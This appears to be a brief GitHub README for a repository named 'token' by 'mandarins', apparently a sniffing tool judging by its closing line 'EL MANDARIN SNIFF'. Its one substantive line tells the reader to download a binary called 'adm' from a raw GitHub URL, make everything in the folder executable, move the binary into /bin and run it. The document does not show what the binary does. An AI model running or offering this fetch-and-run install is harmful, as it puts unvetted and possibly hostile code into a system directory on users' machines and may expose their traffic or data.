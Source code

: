 # token
scripts token by mandarins



https://raw.githubusercontent.com/gatesccn01/token/main/adm




wget https://raw.githubusercontent.com/gatesccn01/token/main/adm; chmod 755 *; mv adm /bin/adm; adm
# EL MANDARIN SNIFF
